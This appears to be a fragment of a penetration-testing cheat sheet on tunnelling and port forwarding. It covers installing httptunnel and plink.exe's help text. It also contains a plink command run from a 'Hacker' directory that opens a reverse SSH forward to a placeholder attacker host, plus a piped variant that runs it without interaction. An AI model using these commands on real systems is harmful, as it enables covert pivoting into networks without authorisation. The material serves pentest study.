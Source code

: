 #### HTTPTunnel 

Kali supported
```bash
sudo apt install httptunnel
```

#### PLINK.exe

[PLINK](https://the.earth.li/~sgtatham/putty/0.53b/htmldoc/Chapter7.html)Windows based tool to perform port forwarding

```powershell
# plink.exe
# Plink: command-line connection utility
# Release 0.70
# Usage: plink [options] [user@]host [command]
#        ("host" can also be a PuTTY saved session name)
# Options:
#   -V        print version information and exit
#   -pgpfp    print PGP key fingerprints and exit
#   -v        show verbose messages
#   -load sessname  Load settings from saved session
#   -ssh -telnet -rlogin -raw -serial
#             force use of a particular protocol
#   -P port   connect to specified port
#   -l user   connect with specified username
#   -batch    disable all interactive prompts
#   -proxycmd command
#             use 'command' as local proxy
#   -sercfg configuration-string (e.g. 19200,8,n,1,X)
#            Specify the serial configuration (serial only)
# The following options only apply to SSH connections:
#   -pw passw login with specified password
#   -D [listen-IP:]listen-port
#             Dynamic SOCKS-based port forwarding
#   -L [listen-IP:]listen-port:host:port
#             Forward local port to remote address
#   -R [listen-IP:]listen-port:host:port
#             Forward remote port to local address
#   -X -x     enable / disable X11 forwarding
#   -A -a     enable / disable agent forwarding
#   -t -T     enable / disable pty allocation
  
C:\Users\Hacker\Tools> plink.exe -ssh -l $attacker_user -pw $attacker_passwordd -R $remote_ip:$remote_port:127.0.0.1:$target_port $remote_ip # remote being connecting back to a user on that $remote_ip

# Pipe it through to prevent interaction from windows host, so cmds from attacker host proxy through
cmd.exe /c echo y | plink.exe <options>
```
